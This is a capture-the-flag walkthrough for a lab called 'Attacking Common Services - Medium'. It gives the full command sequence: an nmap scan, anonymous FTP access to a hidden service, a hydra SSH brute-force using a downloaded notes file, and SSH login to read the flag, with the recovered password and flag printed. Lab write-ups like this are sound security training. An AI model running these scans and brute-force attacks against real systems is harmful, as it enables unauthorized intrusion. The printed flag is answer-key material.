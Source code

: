 # Attacking Common Services - Medium

The second server is an internal server (within the `inlanefreight.htb` domain) that manages and stores emails and files and serves as a backup of some of the company's processes. From internal conversations, we heard that this is used relatively rarely and, in most cases, has only been used for testing purposes so far.

## Walkthrough

```bash
sudo nmap -sS -n -Pn -p- --min-rate 5000 10.129.191.76 -oN nmap.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-23 03:43 EST
Nmap scan report for 10.129.191.76
Host is up (0.26s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
110/tcp   open  pop3
995/tcp   open  pop3s
2121/tcp  open  ccproxy-ftp
30021/tcp open  unknown
```

try anonymous login on all the ftp

```bash
#we found the hidden ftp server, that allow anonymous login
ftp 10.129.191.76 30021
Name (10.129.191.76:kali): anonymous
cd simon
get mynotes.txt
```

it seems like a password, lets try ssh as simon with that notes

```bash
hydra -l simon -P mynotes.txt -f 10.129.191.76 ssh -t 64 
[22][ssh] host: 10.129.191.76   login: simon   password: 8Ns8j1b!23hs4921smHzwn
```

lets ssh and see&#x20;

```bash
ssh simon@10.129.191.76    
cat flag.txt 
HTB{1qay2wsx3EDC4rfv_M3D1UM}
```
